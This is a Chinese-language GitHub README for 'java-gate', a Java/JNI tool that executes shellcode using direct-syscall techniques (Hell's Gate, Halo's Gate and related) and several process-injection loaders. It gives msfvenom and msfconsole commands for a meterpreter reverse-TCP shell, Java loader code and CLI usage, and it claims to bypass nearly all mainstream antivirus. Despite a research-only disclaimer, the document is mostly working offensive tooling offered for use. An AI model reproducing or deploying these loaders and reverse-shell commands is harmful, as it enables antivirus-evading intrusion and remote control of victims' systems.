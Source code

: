 # java-gate

![](https://img.shields.io/badge/build-passing-brightgreen)
![](https://img.shields.io/github/downloads/4ra1n/java-gate/total)
![](https://img.shields.io/github/v/release/4ra1n/java-gate)

`java-gate` 项目可以通过简单的 `Java` 代码实现 `Hell's Gate` 相关技术（直接的系统调用）

```java
byte[]shellcode=new byte[]{(byte)0xfc,(byte)0x48...};
HellsGate gate=new HellsGate(shellcode);
gate.exec();
```

并且支持多种由 `Hell's Gate` 演变而来的技术，如光环之门 `Halo's Gate` 回收之门 `Recycled Gate`
塔尔塔罗斯之门 `Tartarus Gate`
等，除了系统调用相关的功能，使用 `C` 和 `NASM/MASM` 汇编编译和构建，通过 `JNI` 在 `Java` 层调用。
另外提供了很多常见的 `Shellcode` 注入方式，例如 `APC` 注入，和远程线程注入等技术。各种底层技术都可以通过简单的 `Java` 代码做到。

## 介绍

为什么以 `java-gate` 命名：该项目主要集成了各种直接系统调用相关的技术，如地狱之门，光环之门等，因此以`Java`
之门命名，另外可以理解为 `Java` 与底层之间的一扇门。

注意：

- 该项目仅支持64位 `Windows` 和64位 `JVM` （由于 `JNI` 规定64位 `JVM` 只能加载64位 `DLL`）
- 建议使用64位的`shellcode`（例如`windows/x64/meterpreter/reverse_tcp`）
- 使用任意方式加载 `shellcode` 都有可能会导致 `JVM` 崩溃（例如 `shellcode` 没有恢复现场）

## 快速开始

(1) `Maven` 使用 `jitpack` 仓库

```xml

<repositories>
    <repository>
        <id>jitpack.io</id>
        <url>https://jitpack.io</url>
    </repository>
</repositories>
```

(2) 导入项目

```xml

<dependency>
    <groupId>com.github.4ra1n</groupId>
    <artifactId>java-gate</artifactId>
    <version>0.0.1</version>
</dependency>
```

(3) 获取 `shellcode`

这里以 `meterpreter` 为例

```shell
msfvenom --platform windows -p windows/x64/meterpreter/reverse_tcp LHOST=YOUR-IP LPORT=YOUR-PORT -f java
```

(4) 启动 `msfconsole` 监听

这里以 `meterpreter` 为例

```shell
msfconsole -x "use exploit/multi/handler;set payload windows/x64/meterpreter/reverse_tcp;set LHOST 0.0.0.0;set LPORT YOUR-PORT;run;"
```

(5) 编写测试程序

```java
package me.n1ar4;

import me.n1ar4.gate.core.HellsGate;

public class Main {
    public static void main(String[] args) {
        byte buf[] = new byte[]
                {
                        (byte) 0xfc, (byte) 0x48, ...
                };
        HellsGate gate = new HellsGate(buf);
        gate.exec();
    }
}
```

(6) 上线

`msfconsole` 成功上线

系统调用部分如下，使用方式和上文类似，更换类名即可

| Module        | Class                           | Description   | Optional |
|:--------------|:--------------------------------|:--------------|:---------|
| hells-gate    | me.n1ar4.gate.core.HellsGate    | Hells Gate    | /        |
| halos-gate    | me.n1ar4.gate.core.HalosGate    | Halos Gate    | /        |
| recycled-gate | me.n1ar4.gate.core.RecycledGate | Recycled Gate | /        |
| ssn-syscall   | me.n1ar4.gate.core.SSNSyscall   | SSN Syscall   | /        |
| tartarus-gate | me.n1ar4.gate.core.TartarusGate | Tartarus Gate | /        |

加载器部分如下，使用方式和上文类似，更换类名即可

| Module     | Class                                | Description               | Optional |
|:-----------|:-------------------------------------|:--------------------------|:---------|
| apc1       | me.n1ar4.gate.loader.APC1Loader      | 通过NtTestAlert的APC注入       | /        |
| apc2       | me.n1ar4.gate.loader.APC2Loader      | 简单的基于线程的APC注入             | /        |
| crt        | me.n1ar4.gate.loader.CRTLoader       | 简单的远程线程注入                 | 进程名称     |
| divide     | me.n1ar4.gate.loader.DivideLoader    | 创建进程并远程线程注入该进程            | /        |
| early-bird | me.n1ar4.gate.loader.EarlyBirdLoader | 创建新进程并APC注入               | /        |
| etwp       | me.n1ar4.gate.loader.EtwpLoader      | 基于EtwpCreateEtwThread函数注入 | /        |
| rip        | me.n1ar4.gate.loader.RIPLoader       | 修改线程上下文RIP寄存器执行shellcode  | /        |

命令行工具的使用如下

```shell
java -jar java-gate.jar [module] [shellcode-hex-string] [optional]
```

由于 `JVM` 可能崩溃，有一种创建新进程的办法执行

```shell
java -jar java-gate.jar run-new-jvm [module] [shellcode-hex-string]
```

这同样是一种思路，需要在自定义代码中运行本项目可以参考代码 `JavaGate#runNewJVM`

## 构建

在 `Release` 中存在打包好的版本，但如果你不放心，或者需要添加自己的功能，可以参考这里手动构建

请注意，该项目仅适用于 `Windows` 64位和 `JVM` 64位环境，因此只能在该环境下编译和构建

**(1) MSVC x64**

`CMake Toolchains` 使用 `MSVC x64` 工具，大部分汇编基于 `MSVC` 的 `ml64` 编译器

**(2) CMake 3.x**

`C`和汇编代码使用`CMake`编译和构建，生成 `JNI` 对应的 `DLL` 文件，建议使用 `CLion`

**(3) NASM**

大部分汇编使用 `MASM` 编译，但部分汇编使用 `NASM` 编译，需要单独下载和配置到 `PATH`

**(4) JDK 8 & Maven**

`Java` 部分代码使用 `Java 8` 和 `Maven` 进行构建，建议使用 `IDEA`

**(5) Python 3.x**

本项目使用 `Python` 做一些辅助工具，实际上不是必须的选项

## 一些测试

可过几乎所有主流杀软

## 参考与感谢

非常感谢以下优秀的项目提供的代码（大部分代码都参考了这些）

- https://github.com/am0nsec/HellsGate
- https://github.com/boku7/AsmHalosGate
- https://github.com/thefLink/RecycledGate
- https://github.com/trickster0/TartarusGate
- https://github.com/janoglezcampos/c_syscalls

## 免责声明

此工具仅作为网络安全攻防研究交流，请勿用于非法用途
